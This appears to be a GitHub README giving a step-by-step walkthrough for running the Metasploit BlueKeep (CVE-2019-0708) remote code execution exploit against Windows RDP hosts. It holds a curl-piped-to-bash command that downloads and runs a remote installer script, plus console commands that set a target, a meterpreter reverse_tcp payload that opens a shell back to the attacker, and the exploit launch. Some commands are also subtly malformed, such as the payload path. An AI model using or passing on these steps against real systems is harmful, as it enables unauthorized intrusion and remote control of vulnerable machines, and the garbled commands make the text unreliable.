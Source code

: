 [![Read more](https://github.com/nu11secur1ty/Kali-Linux/blob/master/BlueKeep/wall/BlueKeep_OG.jpg)](https://blog.rapid7.com/2019/09/06/initial-metasploit-exploit-module-for-bluekeep-cve-2019-0708/)

More: https://github.com/rapid7/metasploit-framework/pull/12283

- Start manipolation:
```link
https://github.com/nu11secur1ty/Kali-Linux/blob/master/BlueKeep/cve_2019_0708_bluekeep_rce/cve_2019_0708_bluekeep_rce.rb#L398
```


- Automation installer:
```bash
curl -s https://raw.githubusercontent.com/nu11secur1ty/Kali-Linux/master/BlueKeep/bk.sh | bash
```
- SET Target:
```bash
SET RHOSTS 0.0.0.0 # target
SET payload windows/64x/meterpreter/reverse_tcp # set the module
SET LHOST 0.0.0.0 # Your IP for receavin
```
- Check for targets
```bash
show targets
```
- Set Target number
```bash
SET target x
```
- Exploit the target 
```bash 
exploit
```
